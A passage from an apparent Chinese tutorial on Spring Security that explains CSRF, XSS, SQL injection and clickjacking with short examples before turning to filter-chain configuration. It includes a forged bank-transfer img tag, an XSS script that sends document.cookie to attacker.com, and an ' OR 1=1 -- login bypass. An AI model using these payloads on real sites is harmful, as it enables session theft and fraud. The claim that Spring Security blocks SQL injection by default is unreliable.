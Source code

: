 # Spring Security

Spring 生态圈中有两个主流的安全框架：Apache Shiro 和 Spring Security。Spring Security 是 Spring 官方的安全框架，它提供了一套完整的安全解决方案，包括认证、授权、攻击防护等。Shiro 更为轻量，也是一个不错的选择。这里我们只介绍 Spring Security。

这里我们的演示使用 Spring WebFlux。在这里使用 Reactive 版的目的是为了展示 Spring WebFlux 的应用，但这不影响 Spring Security 的学习。

## Spring Security 三大职能

- 攻击防护（Attack Protection），包括防止常见的网络安全攻击，如 CSRF、XSS等。
- 认证（Authentication），验证用户的身份。
- 鉴权（Authorization），控制用户对资源的访问权限。

## 攻击防护

### 常见的网络安全攻击及其原理

#### CSRF（Cross-Site Request Forgery）

CSRF 是一种网络攻击，攻击者利用用户的登录状态发起恶意请求。攻击者可以伪造请求，让用户在不知情的情况下执行恶意操作。

例如，如果用户在`http://bank.com/transfer`页面上登录了银行账号，攻击者可以在另一个页面上放置一个`<img src="http://bank.com/transfer?to=attacker&amount=1000">`的图片，当用户访问这个页面时，浏览器会自动加载这个图片。因为用户的网络环境中已经有了银行的 Cookie，所以这个请求会带上用户的 Cookie，从而执行了转账操作。

#### XSS（Cross-Site Scripting）

XSS 是一种网络攻击，攻击者在网页中注入恶意脚本，当用户访问这个页面时，脚本会在用户的浏览器中执行。这样攻击者就可以获取用户的 Cookie、密码等信息。

这种攻击很像 SQL 注入，只不过 SQL 注入是攻击数据库，而 XSS 是攻击用户。

一种常见的 XSS 攻击是在评论框中注入脚本，当其他用户访问这个页面时，脚本会在他们的浏览器中执行。例如，攻击者在评论框中输入`<script>fetch('http://attacker.com?cookie=' + document.cookie)</script>`，这样其他用户访问这个页面时，就会向`http://attacker.com`发送请求，从而泄露 Cookie。

#### SQL 注入

SQL 注入是一种网络攻击，攻击者在输入框中输入恶意 SQL 语句，当这个 SQL 语句被拼接到数据库查询中时，就会执行这个 SQL 语句。

例如，如果一个登录页面的 SQL 查询是`SELECT * FROM users WHERE username = '${username}' AND password = '${password}'`，攻击者可以输入`' OR 1=1 --`，这样 SQL 查询就变成了`SELECT * FROM users WHERE username = '' OR 1=1 --' AND password = '${password}'`，这样就绕过了密码验证。

#### 点击劫持

点击劫持是一种网络攻击，攻击者在一个透明的 iframe 中放置一个恶意网页，然后将这个 iframe 放在一个看似无害的页面上。当用户点击这个页面时，实际上是点击了 iframe 中的恶意网页。

例如，攻击者在一个透明的 iframe 中放置一个银行转账页面，然后将这个 iframe 放在一个看似无害的页面上。当用户点击这个页面时，实际上是点击了银行转账页面，从而执行了转账操作。

### 配置 Spring Security 进行攻击防护

Spring Security 中，所有的功能都是通过 SecurityFilterChain 实现的。如名字所示，SecurityFilterChain 是一个过滤器链，它包含了一系列的过滤器，每个过滤器负责一个功能。

对于 Spring Web，这个过滤器是 Servlet Filter；对于 Spring WebFlux，这个过滤器是 WebFilter。不过，两者的功能是一样的。

Spring Security 默认开启了全部的攻击防护功能，包括 CSRF、XSS、SQL 注入等。我们可以通过配置来关闭这些功能。
